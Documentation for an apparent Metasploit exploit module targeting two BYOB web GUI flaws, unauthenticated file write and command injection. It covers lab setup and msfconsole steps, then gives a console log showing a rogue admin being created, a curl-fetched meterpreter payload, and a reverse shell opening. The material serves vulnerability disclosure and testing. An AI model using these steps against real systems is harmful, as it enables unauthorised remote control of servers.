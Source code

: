## Vulnerable Application

The BYOB (Build Your Own Botnet) web GUI is vulnerable to two severe vulnerabilities:

- **CVE-2024-45256**: Unauthenticated arbitrary file write leading to
privilege escalation by adding a new admin user in the SQLite database.
- **CVE-2024-45257**: Authenticated command injection on the payload generation page.

As of version 2.1.7, these vulnerabilities remain **unpatched**.

### Discoverer:
- **Chebuya**
- Source:
  - [Blog Post](https://blog.chebuya.com/posts/unauthenticated-remote-command-execution-on-byob/)
  - [PoC and Exploit](https://github.com/chebuya/exploits/tree/main/BYOB-RCE)

### Install

#### Version 2.0 Setup

To install BYOB and test the vulnerabilities locally:

```bash
git clone https://github.com/malwaredllc/byob.git
cd byob/web-ui
./startup.sh
python3 run.py
```

> **Note**: Avoid using Docker for this lab as BYOB itself uses Docker for building payloads.

These vulnerabilities were tested only from the host machine.

## Verification Steps

To reproduce the Remote Code Execution (RCE) exploit:

1. Start `msfconsole`.
2. Do: `use exploit/unix/webapp/byob_unauth_rce`.
3. Do: `set RHOSTS <ip>`.
4. (Optional) Do: `set USERNAME <username>`.
5. (Optional) Do: `set PASSWORD <password>`.
6. Do: `set RPORT <port>`.
7. Do: `set TARGETURI <path>`.
8. Do: `set SRVPORT <port>`.
9. Do: `set FETCH_SRVHOST <ip>`.
10. Do: `run`.

The module will attempt to exploit the vulnerabilities and execute remote code.

## Options

No options

## Scenarios

### BYOB 2.1.7 - Unauthenticated Remote Code Execution

This example uses `cmd/linux/http/x64/meterpreter_reverse_tcp` to gain a reverse shell.

```
msf6 exploit(unix/http/byob_unauth_rce) > options 

Module options (exploit/unix/http/byob_unauth_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Password for new admin
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   6000             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            no        Username for new admin
   VHOST                      no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      roTvDomWxW       no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH       IuxQhs           no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf6 exploit(unix/http/byob_unauth_rce) > run http://192.168.1.36:5000
[*] Exploit running as background job 21.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/http/byob_unauth_rce) > 
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://192.168.1.36:6000/xK9IWU8ZxIpHV
[*] Payload is ready at /
[*] Generating malicious SQLite database.
[+] Database uploaded successfully to path: /proc/self/cwd/../../../../buildyourownbotnet/database.db
[+] Database uploaded successfully to path: /proc/self/cwd/../../../../instance/database.db
[+] Malicious database uploaded successfully.
[*] Registering a new admin user: admin:vZNqftVlFpmp
[+] Registered user !
[*] Logging in with the new admin user.
[+] Logged in successfully!
[*] Injecting payload via command injection.
[*] Received request at: / - Client Address: 192.168.1.36
[*] Sending response to 192.168.1.36 for /
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 192.168.1.36:52382) at 2024-09-21 03:46:21 +0200

msf6 exploit(unix/http/byob_unauth_rce) > sessions 9
[*] Starting interaction with 9...

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-121-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

In this scenario, the payload is injected into the vulnerable
`/api/payload/generate` endpoint, leading to command execution
on the target server.
The reverse shell connects back to Metasploit, providing remote access.
